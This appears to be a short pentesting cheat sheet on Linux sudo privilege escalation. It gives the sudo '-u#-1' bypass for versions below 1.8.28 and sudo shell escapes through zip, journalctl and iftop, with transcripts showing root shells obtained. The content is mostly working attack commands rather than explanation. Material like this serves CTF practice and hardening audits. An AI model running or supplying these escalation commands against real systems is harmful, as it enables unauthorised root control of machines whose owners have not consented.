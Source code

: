 * Looking for the `(ALL, !root) NOPASSWD:`, and Sudo (versions < 1.8.28). Easy priv esc.

```
sudo -V
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27

sudo -u#-1 /bin/bash
root@NIX04:/home/ben# 
```

## Sudo-Shell escape Sequences

* List the programs which sudo allows your user to run:

```
sudo -l
```

Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

### Zip

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
touch hello.txt
sudo /usr/bin/zip 1.zip hello.txt -T --unzip-command="sh -c /bin/bash"
id
uid=0(root) gid=0(root) groups=0(root)
```

```
Sudo -l
```

### npm

* ![alt text](https://miro.medium.com/max/2400/1\*VucdYx033uiuiMXc7ZxIhQ.png)
* ![alt text](https://miro.medium.com/max/2400/1\*0yhB6pvhjXSAJq1BuFPyxA.png)

### journalctl

```
sudo journalctl
!/bin/sh
```

### iftop

```
sudo /usr/bin/iftop
!/bin/bash #hit enter
```
